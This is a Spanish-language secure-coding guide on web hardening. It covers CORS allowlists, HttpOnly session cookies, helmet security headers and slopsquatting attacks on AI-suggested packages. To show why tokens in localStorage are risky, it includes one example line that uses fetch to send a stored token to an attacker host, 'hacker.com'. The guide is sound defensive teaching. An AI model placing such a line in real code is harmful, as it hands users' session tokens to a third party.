

# 🌐 Blindaje Frontend y Web: CORS, Cookies `HttpOnly`, Cabeceras y Slopsquatting

> *"Cuando le pides a la IA 'arréglame este error de CORS', su respuesta instintiva es abrirle las puertas de tu servidor a todos los sitios web del planeta."*

---

## 🚪 1. La Trampa Mortal del `CORS: *`

Estás conectando tu frontend (`https://miapp.com`) con tu backend (`https://api.miapp.com`). De repente, la consola del navegador se tiñe de rojo:
`Access to fetch at 'https://api.miapp.com' from origin 'http://localhost:3000' has been blocked by CORS policy.`

Le copias el error a tu asistente de IA y este, buscando que el error desaparezca en un segundo, escribe:

```javascript
// ❌ PELIGRO EXTREMO: El atajo favorito de la IA
app.use(cors({
  origin: '*', // Permite que CUALQUIER web del mundo consulte tu API
}));
```

### ¿Qué es CORS realmente y cómo configurarlo con bisturí?
**CORS (Cross-Origin Resource Sharing)** es el guardia de seguridad del navegador que impide que una página maliciosa (`https://casino-pirata.com`) haga peticiones silenciosas a tu API en nombre de tu usuario.

La configuración profesional utiliza una **Lista Blanca Estricta (*Allowlist*)** basada en variables de entorno:

```javascript
// ✅ CORRECTO: Lista blanca explícita de dominios autorizados
const ORIGENES_PERMITIDOS = [
  process.env.FRONTEND_URL, // ej: 'https://miapp.com'
  ...(process.env.NODE_ENV === 'development' ? ['http://localhost:3000', 'http://localhost:5173'] : [])
];

app.use(cors({
  origin: function (origin, callback) {
    // Permitir peticiones sin origin (como webhooks o Postman en dev) o en la lista blanca
    if (!origin || ORIGENES_PERMITIDOS.includes(origin)) {
      callback(null, true);
    } else {
      callback(new Error('Bloqueado por política CORS: Origen no autorizado'));
    }
  },
  credentials: true, // Permite cookies seguras
  methods: ['GET', 'POST', 'PUT', 'DELETE'],
  allowedHeaders: ['Content-Type', 'Authorization']
}));
```

---

## 🍪 2. Dónde Guardar la Sesión: `localStorage` vs. Cookies `HttpOnly`

Uno de los hábitos más peligrosos de los modelos de lenguaje al generar sistemas de login es guardar el token JWT directamente en el almacenamiento local del navegador:

```javascript
// ❌ VULNERABLE A ROBO DE SESIÓN POR XSS
localStorage.setItem('token_secreto', respuesta.jwt);
```

### ¿Por qué es peligroso?
`localStorage` es accesible por **cualquier código JavaScript** que corra en tu página. Si el día de mañana instalas una librería externa infectada o sufres una vulnerabilidad XSS, un script de una sola línea (`fetch('https://hacker.com/?t=' + localStorage.getItem('token_secreto'))`) robará las cuentas de todos tus usuarios activos.

### 🛡️ El Estándar Bancario: Cookies `HttpOnly`
Cuando guardas el token de sesión en una cookie con la bandera `HttpOnly`, **el navegador la vuelve invisible para JavaScript** (`document.cookie` no puede leerla), pero la envía automáticamente en cada petición legítima a tu servidor:

```javascript
// ✅ ESTÁNDAR DE PRODUCCIÓN: Cookie blindada desde el Backend
res.cookie('session_token', tokenJWT, {
  httpOnly: true,     // Invisible para JavaScript (Inmune a robo por XSS)
  secure: process.env.NODE_ENV === 'production', // Solo viaja por HTTPS encriptado
  sameSite: 'lax',    // Protege contra ataques CSRF desde sitios externos
  maxAge: 1000 * 60 * 60 * 24 * 7, // Expira en 7 días
  path: '/'
});
```

| Almacenamiento | ¿Vulnerable a XSS (JS malicioso)? | ¿Vulnerable a CSRF? | Veredicto |
|---|---|---|---|
| **`localStorage` / `sessionStorage`** | 🔴 **SÍ (Robo total)** | 🟢 No | ❌ Evitar para tokens sensibles o de larga duración. |
| **Cookie normal (sin banderas)** | 🔴 **SÍ** | 🔴 **SÍ** | 💀 El peor de los mundos. Prohibido. |
| **Cookie `HttpOnly` + `Secure` + `SameSite`** | 🟢 **NO (Invisible a JS)** | 🟢 **Mitigado** | 🏆 **Estándar recomendado para producción.** |

---

## 🪖 3. Las 5 Cabeceras HTTP de Blindaje (*Security Headers*)

Un servidor web sin cabeceras de seguridad es como conducir sin cinturón ni bolsas de aire. Puedes agregarlas en 3 líneas usando **`helmet`** en Node.js o en la configuración de tu servidor/framework:



### Configuración Lista para Producción (Express / Node.js):
```javascript
import helmet from 'helmet';

// Activa automáticamente las cabeceras de protección estándar
app.use(helmet({
  contentSecurityPolicy: {
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"], // Bloquea scripts inyectados de sitios piratas
      styleSrc: ["'self'", "'unsafe-inline'"],
      imgSrc: ["'self'", "data:", "https:"],
      frameAncestors: ["'none'"], // Nadie puede meter tu web dentro de un <iframe> (Anti-Clickjacking)
    },
  },
  hsts: {
    maxAge: 31536000, // 1 año forzando HTTPS obligatorio
    includeSubDomains: true,
    preload: true
  }
}));
```

---

## 📦 4. *Slopsquatting*: El Nuevo Ataque a la Cadena de Suministro en la Era de la IA

En la era del desarrollo asistido por IA ha surgido un vector de ataque completamente nuevo llamado **Slopsquatting** (una variante del *Typosquatting*):

1. Le pides a un modelo de IA: *"Dame una librería para validar RUT chileno o generar facturas en PDF"*.
2. El modelo alucina un nombre que suena muy real pero no existe: `npm install pdf-invoice-generator-pro`.
3. Los atacantes monitorean las alucinaciones más frecuentes de los LLMs y **registran esos nombres exactos en NPM o PyPI** metiendo código malicioso en el script `postinstall` que roba tus archivos `.env` y llaves SSH en el instante en que ejecutas `npm install`.

### 🛡️ Las 3 Reglas de Oro Anti-Slopsquatting:
1. **Nunca ejecutes un `npm install` o `pip install` sugerido por la IA a ciegas:** Verifica primero en [npmjs.com](https://www.npmjs.com/) o [pypi.org](https://pypi.org/) que el paquete tenga miles de descargas semanales, repositorio oficial activo y antigüedad real.
2. **Usa `npm ci --ignore-scripts` en servidores:** Evita que paquetes desconocidos ejecuten comandos arbitrarios de terminal al instalarse.
3. **Corre `npm audit` en tu Quality Gate:** Verifica periódicamente que tus dependencias instaladas no tengan vulnerabilidades críticas conocidas (CVEs).
